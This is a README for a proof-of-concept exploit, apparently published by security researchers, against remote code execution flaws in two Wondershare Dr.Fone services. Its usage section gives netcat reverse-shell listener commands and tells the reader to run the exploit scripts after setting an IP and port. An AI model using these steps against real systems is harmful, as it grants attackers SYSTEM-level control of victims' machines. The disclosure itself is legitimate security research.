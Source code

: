 # WonderShell - CVE - 2021-4459 | CVE - 2021-44596


## Discovered by
Netanel Cohen and Tomer Peled a Security Researchers from BugSec.

## Description
POC example to exploit [Wondershare Dr.Fone](https://drfone.wondershare.com/) .\
Dr.Fone is a phone toolkit develop by wondershare , and vulnerable to RCE.\
Only with network access we manage to execute remote code as SYSTEM user.

Vulnerable services:
>InstallAssistService.exe\
>ElevationService.exe

Tested on versions : 12.0.7 , 11.4

## Usage
Change ip and port and execute.

```
stty raw -echo; (stty size; cat) | nc -lvnp 1338
./ElevationServiceRCE.py
```

```
nc -lvnp 1337
./InstallAssistServiceRCE.py
```


## Publications
https://medium.com/@tomerp_77017/wondershell-a82372914f26




